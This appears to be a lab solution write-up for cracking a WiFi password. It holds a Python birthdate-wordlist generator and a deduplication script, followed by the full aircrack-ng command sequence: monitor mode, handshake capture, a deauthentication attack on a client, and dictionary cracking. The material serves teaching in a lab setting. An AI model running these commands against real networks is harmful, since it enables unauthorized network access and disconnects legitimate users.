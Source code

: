 ### Solution for Lab 1 - Crack WiFi Passwords - 
-----------
There's 2 parts to this Lab. The first one is creating a wordlist and then running the wordlist to crack the password.
The password is a birthdate (the format of which we do not know)
------------
### Generating the wordlist

The python script that generates the scripts can be found [here](wordlist_generator.ipynb)
```
from datetime import datetime, timedelta

# Define the start and end dates for the range
start_date = datetime(1920, 1, 1)
end_date = datetime(2024, 12, 31)

with open("dates_1920_2024_wordlist.txt", "w") as file:
    current_date = start_date
    while current_date <= end_date:
        # Write the  date to the file in DDMMYYYY format
        file.write(current_date.strftime('%d%m%Y') + "\n")
        # Move to the next day
        current_date += timedelta(days=1)

    # Reset the current_date to start_date for MMDDYYYY format
    current_date = start_date
    # Now append the MMDDYYYY formatted dates
    while current_date <= end_date:
        # Write the date to the file in MMDDYYYY format
        file.write(current_date.strftime('%m%d%Y') + "\n")
        current_date += timedelta(days=1)

print("Wordlist for DDMMYYYY and MMDDYYYY formats generated successfully.")
```
### Removing the duplicates
```
# Path to your file
file_path = "dates_1920_2024_wordlist.txt"

# Read the file and remove duplicates
with open(file_path, 'r') as file:
    unique_lines = set(file.readlines())

# Write the unique lines back to the file
with open(file_path, 'w') as file:
    file.writelines(unique_lines)

print("Duplicates removed successfully.")
```

------------
### Cracking the Password

First install aircrack-ng suite and then run the following:


History of commands for cracking the password 
```
iwconfig
sudo airmon-ng check
sudo airmon-ng check kill
sudo airmon-ng start wlx00117f1bf909
iwconfig wlan0mon
sudo airodump-ng wlan0mon
sudo airodump-ng --channel 3 --bssid A8:F7:E0:06:1E:4E --write hackMewifi  wlan0mon
sudo aireplay-ng --deauth 5 -a A8:F7:E0:06:1E:4E -c B2:4B:41:C2:D1:19  wlan0mon
aircrack-ng hackMewifi-01.cap -w dates_1920_2024_wordlist.txt
sudo systemctl restart NetworkManager
```
